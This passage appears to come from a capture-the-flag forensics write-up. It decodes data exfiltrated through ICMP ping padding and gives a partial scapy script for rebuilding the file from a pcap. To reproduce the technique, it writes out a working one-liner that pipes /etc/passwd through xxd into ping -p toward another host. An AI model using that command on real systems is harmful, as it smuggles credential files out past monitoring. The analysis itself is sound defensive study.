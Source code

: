 And now if we strip out the padding which is also 8 bytes we're left with only the we need to recover.  Most implementations of the Ping utility accept command line option '-p' that allows up to 16 bytes of padding to fill out the ICMP ECHO_REQUEST packets that will be sent.
```
In [9]: for p in packets:
   ...:     print(p[Raw].load.hex()[32:])
   ...: 
504b0304140000000000729e8d52659b504b0304140000000000729e8d52659b504b030414000000
4c6b18000000180000001000000066694c6b18000000180000001000000066694c6b180000001800
```

We do see some repeating data with what also seems to be a padding in the packet.  We can quickly duplicate this with data we expect to see.
As an example we can assume from the above that the data exfiltrated was sent in 16 byte chunks.
```bash
└──╼ $cat /etc/passwd | xxd -p -c 16 | head -n2 | xargs -I {} ping -c 1 -t 1 -p '{}' 10.0.0.36
PATTERN: 0x726f6f743a783a303a303a726f6f743a
PING 10.0.0.36 (10.0.0.36) 56(84) bytes of data.
64 bytes from 10.0.0.36: icmp_seq=1 ttl=64 time=0.655 ms

--- 10.0.0.36 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.655/0.655/0.655/0.000 ms
PATTERN: 0x2f726f6f743a2f62696e2f626173680a
PING 10.0.0.36 (10.0.0.36) 56(84) bytes of data.
64 bytes from 10.0.0.36: icmp_seq=1 ttl=64 time=0.592 ms

--- 10.0.0.36 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.592/0.592/0.592/0.000 ms
```
With the padding and repeating data stripped out we're left with 16 bytes of data which is in line with our pcap file.
When that data is converted from hex to ascii we have exactly what we expect which is the first line of /etc/passwd
```
726f6f743a783a303a303a726f6f743a
2f726f6f743a2f62696e2f626173680a
```

```bash
└──╼ $echo 726f6f743a783a303a303a726f6f743a2f726f6f743a2f62696e2f626173680a | xxd -p -r
root:x:0:0:root:/root:/bin/bash
```

Now we can fill out the rest of our script to reconstruct a file from the data exfil
```python
#!/usr/bin/python3
from scapy.all import IP, ICMP, rdpcap, Raw
from binascii import unhexlify
print("Loading pcap file")
pcap = rdpcap('older_trick.pcap')
print("Filtering ICMP packets")
packets = [p for p in pcap if ICMP in p]
print("Extracting ICMP request packets only")
packets = [p for p in packets if p[IP].src == '192.168.1.7']

dataload = ''
#Stripping 8 byte timestamp and 8 bytes of padding
f = open('data', 'wb')
for p in packets:
    chunk = ''
    chunk = p[Raw].load.hex()
    #strip out timestamp and padding
    chunk = chunk[32:]
    #strip out repeating data
```